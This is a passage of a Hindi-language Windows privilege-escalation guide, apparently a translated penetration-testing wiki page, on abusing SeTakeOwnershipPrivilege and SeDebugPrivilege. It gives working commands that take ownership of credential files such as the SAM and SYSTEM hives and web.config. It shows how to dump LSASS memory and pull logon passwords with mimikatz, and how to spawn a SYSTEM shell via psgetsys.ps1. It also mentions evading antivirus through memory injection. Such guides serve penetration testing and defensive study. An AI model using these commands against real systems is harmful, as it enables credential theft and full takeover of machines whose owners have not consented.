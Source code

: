 ### SeTakeOwnershipPrivilege

यह **SeRestorePrivilege** के समान है। इसका मुख्य कार्यक्षेत्र एक प्रक्रिया को **एक ऑब्जेक्ट के स्वामित्व को अस्सुम करने** की अनुमति देना है, WRITE\_OWNER पहुँच के अधिकार के माध्यम से विवेकाधीन पहुँच की आवश्यकता को दूर करते हुए। इस प्रक्रिया में पहले इच्छित रजिस्ट्री कुंजी के स्वामित्व को लेखन के उद्देश्य से सुरक्षित करना होता है, फिर DACL को लिखने के लिए कार्यवाही करनी होती है।
```bash
takeown /f 'C:\some\file.txt' #Now the file is owned by you
icacls 'C:\some\file.txt' /grant <your_username>:F #Now you have full access
# Use this with files that might contain credentials such as
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software
%WINDIR%\repair\security
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
c:\inetpub\wwwwroot\web.config
```
### SeDebugPrivilege

यह प्रिविलेज **अन्य प्रक्रियाओं को डिबग करने** की अनुमति देता है, जिसमें मेमोरी में पढ़ने और लिखने की भी शामिल है। इस प्रिविलेज के साथ अधिकांश एंटीवायरस और होस्ट इन्ट्रूजन प्रिवेंशन समाधानों को टालने की क्षमता वाले विभिन्न मेमोरी इंजेक्शन के लिए विभिन्न रणनीतियाँ लागू की जा सकती हैं।

#### मेमोरी डंप

आप [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) का उपयोग कर सकते हैं [SysInternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) से **किसी प्रक्रिया की मेमोरी को** **कैप्चर करने** के लिए। विशेष रूप से, यह **स्थानीय सुरक्षा प्राधिकरण उपस्थिति सेवा (**[**LSASS**](https://en.wikipedia.org/wiki/Local\_Security\_Authority\_Subsystem\_Service)**)** प्रक्रिया पर लागू हो सकता है, जो एक उपयोगकर्ता ने सफलतापूर्वक सिस्टम में लॉगिन किया होने पर उपयोगकर्ता क्रेडेंशियल्स को संग्रहित करने के लिए जिम्मेदार है।

फिर आप इस डंप को मिमीकेट्ज में लोड कर सकते हैं ताकि पासवर्ड प्राप्त कर सकें:
```
mimikatz.exe
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```
#### RCE

यदि आप `NT SYSTEM` शैल (shell) प्राप्त करना चाहते हैं तो आप निम्नलिखित का उपयोग कर सकते हैं:

* [**SeDebugPrivilege-Exploit (C++)**](https://github.com/bruno-1337/SeDebugPrivilege-Exploit)
* [**SeDebugPrivilegePoC (C#)**](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC)
* [**psgetsys.ps1 (Powershell Script)**](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1)
```powershell
# Get the PID of a process running as NT SYSTEM
import-module psgetsys.ps1; [MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>)
```
## विशेषाधिकारों की जाँच
```
whoami /priv
```
**टोकन जो अक्षम रूप से प्रकट होते हैं** को सक्षम किया जा सकता है, आप _सक्षम_ और _अक्षम_ टोकन का दुरुपयोग कर सकते हैं।
